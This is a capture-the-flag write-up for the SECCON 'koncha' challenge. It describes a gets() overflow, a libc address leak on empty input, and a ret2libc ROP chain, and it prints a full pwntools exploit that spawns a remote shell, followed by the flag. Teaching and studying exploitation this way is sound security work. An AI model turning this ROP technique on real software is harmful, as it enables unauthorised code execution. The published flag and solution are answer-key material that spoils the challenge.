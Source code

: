 ### koncha-нный write-up

#### TL;DR

* Get libc leak
* Perform ROP

#### Getting to know the binary
If we open the binary in IDA we see a pretty simple main function ![IDA image](/assets/IDA_function.png)

`gets()` is clearly the vulnerability here, so considering that the challenge binary has no canary we can easily perform ROP.

#### ROP chain

* Get LIBC leak
    
    When i first launched the binary I noticed one interesting feature: if I don't provide any input and just press ENTER, the output of my name will contain strange bytes.![Leak_pic](/assets/nc_output.png) Looking into it, I figured that those bytes, when converted to int, are actually an adress from `LIBC`. Sweet! Now we don't have to worry about ASLR anymore.
    

* Get code execution

    Here we'll use pop_rdi gadget together with address of `"/bin/sh"` string in liband a call to `system`

#### Payload
Overall payload looks something like this
    import pwn

    # Set up binaries and gadgets
    binary = pwn.ELF("./chall", checksec=False)
    libc = pwn.ELF("../lib/libc.so.6", checksec=False)
    libc.symbols['pop_rdi'] = 0x0000000000023b6a
    libc.symbols['ret'] = 0x0000000000022679  # ret gadget to align the stack
    
    
    LEAK_OFFSET = 0x1f12e8
    
    io = pwn.remote("koncha.seccon.games", 9001)
    
    # Get libc leak
    io.recvline()
    io.sendline(b'')
    
    libc_leak = io.recvline()[18:-2]
    libc_leak = int.from_bytes(libc_leak, byteorder="little")
    libc.address = libc_leak - LEAK_OFFSET
    
    pwn.log.success(f"LIBC BASE: {hex(libc.address)}")
    
    BINSH_ADDRESS = next(libc.search(b"/bin/sh"))
    pwn.log.info(f"BINSH address: {hex(BINSH_ADDRESS)}")
    pwn.log.info(f"Sytem() address: {hex(libc.symbols['system'])}")
    
    # 0x50 -buffers + 0x8 - saved rbp
    payload = pwn.cyclic(0x50 + 0x8)
    
    # pop_rdi gadget
    payload += pwn.p64(libc.symbols['pop_rdi'])
    
    # address of /bin/sh is put in RDI registry
    payload += pwn.p64(BINSH_ADDRESS)
    
    # Here we align the stack
    payload += pwn.p64(libc.symbols['ret'])
    
    # And finally call system() with address of "/bin/sh" string as argumet
    payload += pwn.p64(libc.symbols['system'])  # call to system()
    
    pwn.log.info("Sending the payload now...")
    
    io.sendline(payload)
    io.recvuntil(b'Goodbye!\n')
    
    io.interactive()
    
And so we `cat` the flag `SECCON{I_should_have_checked_the_return_value_of_scanf}`
